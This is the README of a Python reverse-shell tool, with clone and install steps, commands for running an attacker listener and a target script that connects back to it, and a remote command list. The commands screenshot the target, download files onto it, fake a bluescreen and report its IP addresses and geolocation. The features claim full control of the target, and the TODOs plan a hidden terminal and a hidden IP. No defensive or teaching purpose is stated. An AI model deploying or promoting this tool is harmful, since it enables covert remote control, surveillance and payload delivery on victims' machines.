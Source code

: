 # Reverse Shell #

Reverse shell implementation using Python.
<br/><br/>

<p align="center">
  <img src="./screenshot/reverse_shell_01.gif">
</p>


## Installation ##
**NOTE**: Python 3.6 or higher is required.

```bash
# clone the repo
$ git clone https://github.com/jcs090218/ult_reverse_shell

# change the working directory to reverse shell
$ cd ult_reverse_shell

# install python3 and python3-pip if not exist

# install the requirements
$ pip3 install -r requirements.txt
```

## Usage ##
### 1. Listen for target ###
On attacker machine, run the `attacker.py` script.
```
python3 attacker.py [port]
```

### 2. Execute reverse shell ###
On target machine, run the `target.py` script.
```
python3 target.py [host] [port]
```


## Commands ##
```sh
# Halt
!dc            Disconnect the target from this host, target will start reconnection process.
!shutdown      Shutdown both `attacher` and `target`.

# Listen
!screenshot    Screenshot the target machine.

# Cheat
!bluescreen    Fake bluescreen. (Windows Only)
!dl            Download file by URL onto the target machine.

# Information
!wan_ip        Get the WAN IP.
!lan_ip        Get the LAN IP.
!geo_info      Get the geolocation on the target device.
```


## Features ##
### Implemented ###
* Auto reconnection
* Downloader (Download file to target machine)
* Screenshot
* Full control on the target machine.

### Not Implemented ###
* Packet encoder/decoder.


## TODOs ##
* Bluescreen (Fake)
* Hidden IP
* Hidden terminal
* Multi-target listening

